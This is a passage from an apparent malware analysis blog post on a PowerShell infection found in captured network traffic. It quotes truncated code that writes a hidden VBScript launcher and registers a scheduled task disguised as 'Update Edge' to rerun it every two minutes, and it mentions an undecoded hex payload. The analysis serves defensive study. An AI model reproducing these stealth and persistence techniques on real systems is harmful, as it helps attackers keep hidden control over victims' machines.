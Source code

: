3. **VBScript (Conted.vbs)**
``` powershell
$Content = @'
on error resume next
Function CreateWshShellObj()
    Dim objName
    objName = "WScript.Shell"
    Set CreateWshShellObj = CreateObject(objName)
End Function
...
'@
[IO.File]::WriteAllText("C:\Users\Public\Conted.vbs", $Content)
```
The script writes a **VBScript file** (**Conted.vbs**) that runs the **batch file** (**Conted.bat**). This script is designed to run the batch file **silently** (with visibility set to `0`), ensuring that the user does not notice any visible command windows or prompts.


4. **Creating a Scheduled Task for Persistence**

``` powershell
$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
...
$taskDefinition.RegistrationInfo.Description = "Runs a script every 2 minutes"
$trigger.Repetition.Interval = "PT2M"
$action.Path = "C:\Users\Public\Conted.vbs"
$taskFolder.RegisterTaskDefinition("Update Edge", $taskDefinition, 6, $null, $null, 3)
```

Finally, the script sets up a **scheduled task** to run the **VBScript** (**Conted.vbs**) every **2 minutes**. This scheduled task is named **"Update Edge,"** which gives it the appearance of a legitimate browser update process. By creating this task, the script ensures that the payload is executed **persistently** every 2 minutes, maintaining control over the system.


### Further Analysis Required

It is important to note that the analysis of the PCAP file is ongoing, and new findings might emerge as we continue the investigation.

### Observations and Next Steps

The variable `$hexString_bbb and $hexString_pe`, which appears to contain another payload, requires further decoding. Upon inspection, this string shows similarities to a recent Zoom Invite Telegram C2 malware that was previously analysed. You can find the detailed analysis of that malware [here](https://daniyyell.com/malware%20analysis/inside-zoom-invite-call-phishing-malware-distribution/).

Although the malware behaviour in this instance closely resembles the one seen in the zoom Invite case, the Python decoding script from that blog post did not work in this scenario, as it was specifically designed for PowerShell-based malware. Given this, a different decoding approach will be necessary to handle this hexadecimal payload.


The code for Deobfucation
